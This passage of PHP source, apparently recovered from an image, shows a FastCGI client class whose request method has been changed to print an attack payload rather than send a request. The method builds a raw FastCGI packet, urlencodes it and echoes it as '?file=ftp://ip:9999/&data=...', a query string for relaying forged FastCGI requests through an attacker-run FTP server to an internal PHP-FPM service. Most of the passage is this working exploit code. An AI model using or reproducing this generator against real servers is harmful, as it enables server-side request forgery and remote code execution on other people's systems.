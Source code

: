 ```
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999/&data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
```